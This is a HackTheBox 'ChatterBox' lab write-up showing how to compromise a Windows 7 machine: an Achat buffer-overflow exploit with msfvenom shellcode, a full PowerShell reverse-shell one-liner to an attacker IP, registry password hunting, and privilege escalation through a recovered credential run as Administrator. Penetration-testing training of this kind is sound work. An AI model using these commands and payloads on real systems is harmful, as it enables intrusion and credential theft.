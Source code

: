 ```yaml
---
title: ChatterBox Writeup | Without Metasploit
date: 2021-09-04
categories: [WriteUp, HackTheBox]
tags: [HackTheBox, WriteUp, OSCP, TJNULLs List] 
---
```


----
IP : Dynamic (HTB VIP+)
OS : Windows 
Difficulty : Medium

Covered Issues : BufferOverflow, Powershell, Windows PrivEsc

Tools Used : rustscan, searchsploit, python, msfvenom, nc, socat, powershell, 

Remediation Advise : 
	
----
----

#### Enumeration
 
**`rustscan`**
```powershell
$ rustscan -a 10.129.216.176 -b 1500 --ulimit 5000 -- -A | tee rustscanChatterbox
```
![alt](/assets/Images_P2_ChatterBox/ChatterBox_1.png)


Detailed Enumeration with **`nmap`**.
```powershell
# Found ports from rustscan were UDP ports.
nmap -Pn -A -p 9255,9256 10.129.216.119 | tee nmapA
```
![alt](/assets/Images_P2_ChatterBox/ChatterBox_2.png)

Searching for exploit in **`searchsploit`** DB.
```powershell
$ searchsploit "achat"
Achat 0.150 beta7 - Remote Buffer Overflow | windows/remote/36025.py
```

![alt](/assets/Images_P2_ChatterBox/ChatterBox_3.png)

----
----

#### Weaponizing Exploitation Tool

Going forward with searchsploit suggested exploit. `windows/remote/36025.py`
Generating new buffer payload with **`msfvenom`** for exploit  with instructions given in exploit.
```bash
$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
![alt](/assets/Images_P2_ChatterBox/ChatterBox_4.png)

----
----
#### Exploitation

Modifying the exploit code. Putting new Buffer payload and change target ip.
Starting **`nc`** listener to catch reverse shell.
```bash
$ rlwrap nc -lvnp 4444
```

```bash
$ python 36025.py
```
![alt](/assets/Images_P2_ChatterBox/ChatterBox_5.png)


Upgrading the cmd shell to powershell.
```bash
# start socat listener
$ rlwrap socat -d -d TCP4-LISTEN:5555,fork STDOUT
```

```powershell
# In recived windows rev shell enter this command.
> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.17.81',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

![alt](/assets/Images_P2_ChatterBox/ChatterBox_6.png)

***It will give better powershell reverse shell. Now we can proceed with priv esc.***

----
----

#### Privilege Escalation
- Enumeration for PrivEsc
	- whoami : alfred (low level user)
	- systeminfo :
		- OS Name : Microsoft Windows 7 Professional
		- OS Version: 6.1.7601 Service Pack 1 Build 7601
		- Hotfix: 183 Hotfix(s) Installed.
		- Kernal Exploits : N/A

**Mannual Enumeration**

```powershell
# password hunting
# Search for passwords in registry
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s

# Windows autologin
> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

**From above enumeration we got default username & password stored in registry.**
`Alfred : Welcome1!`

Same can be achieved with `powerup` or `winpeas`.

![alt](/assets/Images_P2_ChatterBox/ChatterBox_7.png)

Running program as other user. We can escalate privileges.
```powershell
function Invoke-CreatingPassword
{
$Pass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CHATTERBOX\Alfred',$Pass)
Start-Process -FilePath "powershell" -ArgumentList "whoami" -Credential $Cred	
}

Invoke-CreatingPassword
```
Testing with whoami with 'Alfred user'
![alt](/assets/Images_P2_ChatterBox/ChatterBox_8.png)

Now changing the username `Administrator` instead of `Alfred`.
![alt](/assets/Images_P2_ChatterBox/ChatterBox_9.png)

With the above powershell script we are able to run **`whoami`** program in Windows.
![alt](/assets/Images_P2_ChatterBox/ChatterBox_10.png)

Now, We can also get reverse shell with the help of msfvenom payload.
```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=7777 -f exe -o shell.exe
```
Host it on using http server. And transfer it to windows machine.

![alt](/assets/Images_P2_ChatterBox/ChatterBox_11.png)
![alt](/assets/Images_P2_ChatterBox/ChatterBox_12.png)

Modifying the run-as powershell script.
![alt](/assets/Images_P2_ChatterBox/ChatterBox_13.png)

After transferring, setting up listener.

```bash
$ rlwrap socat -d -d TCP4-LISTEN:7777,fork STDOUT
```

and calling the modified run-as powershell script developed above.
we will be able to get reverse shell with admin privileges.

![alt](/assets/Images_P2_ChatterBox/ChatterBox_14.png)

----
----
